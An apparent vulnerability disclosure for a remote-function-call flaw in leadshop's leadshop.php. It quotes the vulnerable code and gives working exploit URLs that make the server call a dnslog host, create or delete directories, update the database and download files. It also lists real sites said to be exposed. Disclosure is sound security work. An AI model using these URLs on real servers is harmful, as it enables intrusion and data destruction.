

There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
Description
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  

```  
 public function run()  
    {  
        //读取参数数据  
        $include = isset($_GET['include']) ? $_GET['include'] : "";  
        $data    = isset($_GET['data']) ? $_GET['data'] : "";  
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";  
        //执行数据方法  
        if ($include) {  
            return call_user_func_array([$this, $include], [$meta, $data]);  
        } else {  
            //用于判断是否非法操作  
            $token = isset($_GET['token']) ? $_GET['token'] : "";  
            $html  = get_oss_url('index.html');  
            //判断锁文件是否存在，存在则是要执行更新  
            if (@file_exists(dirname(__DIR__) . "/install.lock")) {  
                if (@file_get_contents(dirname(__DIR__) . "/install.lock") === $token) {  
                    if (!isset($_SESSION['self_update'])) {  
                        //执行更新自身  
                        $this->SilentSelfUpdate();  
                    }  
                    //执行更新操作  
                    $version = get_version();  
                    $body    = $this->DownloadFile($html);  
                    echo str_replace('{$version}', $version, $body);  
                } else {  
                    die("检测到非法Token，请登录后台进入更新界面");  
                }  
            } else {  
                $version = get_version();  
                $body    = $this->DownloadFile($html);  
                echo str_replace('{$version}', $version, $body);  
            }  
        }  

    }  
```  

The call_user_func_array function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: 
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn
```
),  
ToMkdir (create folder: poc: 
```
https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1
```
),  
UpdateSql (perform database update: poc: 
```
https://demo.leadshop.vip/leadshop.php?include=UpdateSql
```
),  
DownloadFile (download file: poc: 
```
https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png
```
),  
RemoveDir (remove directory: poc: 
```
https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]
```
)

-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:


-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.
Access may make the server a dos server.
Download, so that an attacker can download the PHP Trojan to the server.
Creating and deleting will destroy normal services.
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").
```
https://8.141.175.3
http://www.huatianlinye.com
https://39.107.102.163
https://42.193.253.224
https://store.mianhuain.com
http://shop.yongzhitang.com
https://101.201.209.92
http://119.3.229.175:7788
https://101.200.231.65
https://zhangtong.store.mianhuain.com
```

-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509